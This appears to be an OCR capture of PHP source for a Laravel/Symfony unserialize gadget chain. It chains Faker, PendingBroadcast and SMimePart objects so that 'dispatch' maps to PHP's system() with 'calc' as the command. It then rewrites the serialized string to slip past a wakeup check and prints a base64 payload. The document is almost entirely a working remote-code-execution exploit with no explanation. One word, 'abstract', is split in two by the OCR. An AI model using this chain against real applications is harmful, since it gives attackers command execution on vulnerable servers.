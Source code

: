 ```php
<?php

namespace Faker {
    class Generator {
        protected $providers = [];
        protected $formatters = [];
        function __construct() {
            $this->formatter = "dispatch";
            $this->formatters = 9999;
        }
    }
}

namespace Illuminate\Broadcasting {
    class PendingBroadcast {
        public function __construct() {
            $this->event = "calc";
            $this->events = new \Faker\Generator();
        }
    }
}

namespace Symfony\Component\Mime\Part {
    abstr
act class AbstractPart {
        private $headers = null;
    }
    
    class SMimePart extends AbstractPart {
        protected $_headers;
        public $h3rmesk1t;
        function __construct() {
            $this->_headers = ["dispatch"=>"system"];
            $this->h3rmesk1t = new \Illuminate\Broadcasting\PendingBroadcast();
        }
    }
}


namespace {
    $pop = new \Symfony\Component\Mime\Part\SMimePart();
    $ser = preg_replace("/([^\{]*\{)(.*)(s:49.*)(\})/","\\1\\3\\2\\4",serialize($pop));
    echo base64_encode(str_replace("i:9999","R:2",$ser));
}
```
